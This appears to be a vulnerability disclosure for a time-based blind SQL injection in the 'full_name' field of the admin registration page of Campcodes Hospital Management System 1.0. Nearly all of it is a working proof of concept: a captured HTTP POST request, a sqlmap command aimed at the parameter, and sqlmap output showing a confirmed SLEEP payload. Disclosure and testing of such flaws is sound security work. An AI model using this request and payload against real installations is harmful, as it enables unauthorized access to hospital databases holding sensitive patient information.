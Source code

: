 # Hospital Management System sqli in /hms/admin/registration.php

- Vendor Homepage: https://www.campcodes.com
- Software Link: https://www.campcodes.com/projects/online-hospital-management-system-using-php-and-mysql/
- Version: 1.0

### POC

#### request.txt

```http
POST /hospital/hms/admin/registration.php HTTP/1.1
Host: 192.168.177.1
Referer: http://192.168.177.1/hospital/hms/admin/registration.php
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0, i
Cookie: clip-setting=%7B%22fixedHeader%22%3Atrue%2C%22fixedSidebar%22%3Atrue%2C%22closedSidebar%22%3Afalse%2C%22fixedFooter%22%3Afalse%2C%22theme%22%3A%22theme-1%22%7D; PHPSESSID=b4ao6mmdbco1bcmr84grm25ihd
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.177.1
Content-Length: 124

full_name=admin&address=admin&city=admin&gender=female&email=admin%40admin.com&password=123456&password_again=123456&submit=
```

```
sqlmap -r request.txt -p full_name --technique T --batch --flush-session --level 5
```

![image-20250530164908643](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505301649739.png)

```
---
Parameter: full_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: full_name=test'+(SELECT 0x6f626a70 WHERE 9939=9939 AND (SELECT 4907 FROM (SELECT(SLEEP(5)))VjxU))+'&address=test&city=test&gender=female&email=test@test.com&password=123456&password_again=123456&submit=
---
```

